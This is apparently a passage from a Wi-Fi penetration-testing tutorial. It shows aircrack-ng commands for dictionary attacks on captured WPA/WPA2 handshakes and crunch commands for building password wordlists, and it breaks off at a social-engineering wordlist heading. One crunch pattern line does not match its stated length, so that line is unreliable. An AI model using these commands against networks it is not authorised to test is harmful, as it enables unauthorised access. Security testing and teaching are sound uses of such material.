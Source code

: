 ### WPA/WPA2 Dictionary Attacks

WPA/WPA2 requires offline dictionary attacks against captured handshakes.

#### Basic Dictionary Attack

```bash
# Standard dictionary attack
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b AA:BB:CC:DD:EE:FF handshake.cap

# Use multiple wordlists
aircrack-ng -w wordlist1.txt,wordlist2.txt,wordlist3.txt handshake.cap

# Show progress and statistics
aircrack-ng -w wordlist.txt -b AA:BB:CC:DD:EE:FF -S handshake.cap
```

#### Advanced Dictionary Attacks

```bash
# Use ESSID-specific optimization
aircrack-ng -w wordlist.txt -e "NetworkName" handshake.cap

# Specify number of CPU cores
aircrack-ng -w wordlist.txt -p 4 handshake.cap

# Combine multiple techniques
aircrack-ng -w wordlist.txt -b AA:BB:CC:DD:EE:FF -e "NetworkName" -p 4 handshake.cap
```

### Wordlist Generation and Management

#### Custom Wordlist Creation

```bash
# Install crunch for wordlist generation
sudo apt install crunch

# Generate numeric passwords (4-8 digits)
crunch 4 8 0123456789 -o numeric-passwords.txt

# Generate alphanumeric passwords
crunch 8 12 abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789 -o alphanumeric.txt

# Pattern-based generation
crunch 8 8 -t @@@@@@%% -o pattern-passwords.txt  # 6 letters + 2 numbers
crunch 10 10 -t @@@@@@@@%% -o office-pattern.txt  # 8 letters + 2 numbers

# Phone number patterns
crunch 10 10 0123456789 -t 555%%%-%%%% -o phone-numbers.txt
```

#### Social Engineering Wordlists
